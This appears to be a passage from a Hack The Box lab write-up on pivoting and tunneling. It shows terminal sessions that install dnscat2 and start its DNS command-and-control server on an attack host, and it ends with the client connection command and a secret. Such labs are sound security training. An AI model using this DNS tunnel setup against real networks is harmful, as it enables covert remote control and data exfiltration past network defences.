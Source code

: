 Download and install `DNScat2`

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ git clone https://github.com/iagox86/dnscat2.git
Cloning into 'dnscat2'...
remote: Enumerating objects: 6617, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 6617 (delta 0), reused 5 (delta 0), pack-reused 6607
Receiving objects: 100% (6617/6617), 3.84 MiB | 13.06 MiB/s, done.
Resolving deltas: 100% (4564/4564), done.

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ cd dnscat2/server/

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding/dnscat2/server]
└─$ gem install bundler
Fetching bundler-2.4.7.gem
ERROR:  While executing gem ... (Gem::FilePermissionError)
    You don't have write permissions for the /var/lib/gems/3.1.0 directory.

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding/dnscat2/server]
└─$ sudo gem install bundler
[sudo] password for kali: 
Fetching bundler-2.4.7.gem
Successfully installed bundler-2.4.7
Parsing documentation for bundler-2.4.7
Installing ri documentation for bundler-2.4.7
Done installing documentation for bundler after 0 seconds
1 gem installed

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding/dnscat2/server]
└─$ bundle install  
Using bundler 2.4.7
Using ecdsa 1.2.0
Using salsa20 0.1.1
Using sha3 1.0.1
Using trollop 2.1.2
Bundle complete! 4 Gemfile dependencies, 5 gems now installed.
Use `bundle info [gemname]` to see where a bundled gem is installed.
```

Run the `DNScat2` server on the attack host.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding/dnscat2/server]
└─$ sudo ruby dnscat2.rb --dns host=10.10.15.176,port=53,domain=inlanefreight.local --no-cache

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.15.176:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=d866ecfb9007f418429a6d9499864114 inlanefreight.local

```